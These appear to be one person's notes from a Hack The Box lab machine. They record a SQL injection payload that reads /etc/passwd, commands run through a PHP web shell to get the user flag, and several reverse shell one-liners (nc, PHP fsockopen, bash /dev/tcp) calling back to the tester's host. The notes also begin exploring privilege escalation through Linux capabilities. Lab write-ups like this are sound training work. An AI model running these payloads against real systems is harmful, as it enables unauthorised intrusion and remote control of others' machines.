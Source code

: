 ![[Screenshot 2022-05-11 at 17.09.12.png]] meaning we got RCE.

Trying to read a file using the _load_file()_ funciton I entered `' union select load_file('/etc/passwd');-- -` and we got the contents:
![[Screenshot 2022-05-11 at 15.44.43.png]]

With both of these now, I am going to try to upload a php reverse shell.

- `uname -a`: ![[Screenshot 2022-05-11 at 17.15.37.png]]
- `id`: ![[Screenshot 2022-05-11 at 17.17.46.png]]
- `ls`: ![[Screenshot 2022-05-11 at 17.21.17.png]]
trying `cat config.php` resulted in nothing... Until I tried using _curl_ `curl http://10.10.11.116/test.php?cmd=cat%20config.php`:
![[Screenshot 2022-05-11 at 17.36.21.png]] --> this indicated to me that all the commands work, its just only visible in the source code..
However, doing `cat /home/htb/user.txt` gave me the user flag.


# Privesc
## 1 = reverse shell
Simply trying `nc 10.10.14.19 4444 -e /bin/bash` after `cmd=` in the URL did not work.. It appears there is some form of restriction as to which commands can be executed, as only a few worked for me. `php -r '$sock=fsockopen("10.10.14.19",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` also did not work..

Trying the simple bash `bash -c 'bash -i >& /dev/tcp/10.10.14.19/1234 0>&1'` instead and executing it using `curl http://10.10.11.116/c.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.19%2F1234%200%3E%261%27%0A` worked:
![[Screenshot 2022-05-11 at 17.42.17.png]]

## 2 = looking around
Whilst trying to upload linpeas.sh, I came accross the file _clean_ in _/tmp_ which seemed to contain loads of integer strings.

It appears there are loads of _capabilites_:
![[Screenshot 2022-05-11 at 17.54.05.png]]
Looking up _linux capabilities privesc_:
![[Screenshot 2022-05-11 at 17.54.36.png]]

I also found this _entrypoint.sh_ process which seems too easy?
![[Screenshot 2022-05-11 at 17.57.45.png]]
SGID's
![[Screenshot 2022-05-11 at 17.59.53.png]]

### [capabilities](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/) - CAP_CHOWN
trying `getcap -r / 2>/dev/null` following [this walkthrough](https://attackdefense.com/challengedetailsnoauth?cid=1365) did not work.
_CAP_CHOWN_ means its possible to change the ownership of any file. We dont have python (which seems to be what most of the 'walkthroughs' use) nor ruby, which we can use as suggested by [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown)
